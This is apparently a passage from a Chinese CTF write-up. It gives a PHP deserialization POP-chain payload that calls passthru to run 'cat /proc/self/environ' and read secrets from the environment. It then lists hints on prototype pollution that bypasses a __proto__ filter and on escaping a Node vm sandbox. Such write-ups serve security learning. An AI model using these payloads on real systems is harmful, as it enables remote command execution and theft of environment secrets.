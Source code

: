 在hint里面已经给出pop链条了，这里就不再分析了，就只是对几个函数的利用讲一下

首先是destruct函数里面的foreach，是遍历一个数组，然后数组里面应该是以键值对的形式存储

然后进入Storage类里的set魔术方法，里面有执行value参数的expired函数，那么这个value参数就应该是cache2

cache类里有wakeup方法，可以通过其他属性引用expired的地址，然后修改该属性的值即可绕过

最后注意：$this->helper->clean($this->key); 这个跳入Helper类里的时候传入的name是clean，args是key，需要在helper类里的funcs也设置为一个数组，存有键名为clean的键值对

最终生成paylaod👇

```
$cache1=new Cache();
$cache2=new Cache();
$storage=new Storage();
$helper=new Helper();
$dataobject=new DataObject();

$dataobject->storage=$storage;
$storage->store=&$cache2->expired;
$dataobject->data=['1'=>$cache1,'2'=>$cache2];
$helper->funcs=['clean'=>'passthru'];
$cache2->value=&$cache2->expired;
$cache2->value=True;

$cache2->helper=$helper;
$cache2->key='cat /proc/self/environ';

echo serialize($dataobject).PHP_EOL;
```

flag在环境变量里

### ez\_sandbox

hint👇

```
Hint 1: 原型链污染 (除了 __proto__ 还有其它方法)
Hint 2: vm 沙箱逃逸 (arguments.callee.caller)
Hint 3: 在沙箱内可以通过 throw 来抛出一个对象 这个对象会被沙箱外的 catch 语句捕获 然后会访问它的 message 属性 (即 e.message)
Hint 4: 通过 JavaScript 的 Proxy 类或对象的 __defineGetter__ 方法来设置一个 getter 使得在沙箱外访问 e 的 message 属性 (即 e.message) 时能够调用某个函数
Hint 5: 通过 constructor.prototype 绕过 __proto__ 进行原型链污染
Hint 6: https://xz.aliyun.com/t/11859
```

一个js框架的界面，在源码中可以看到proto是被过滤掉了

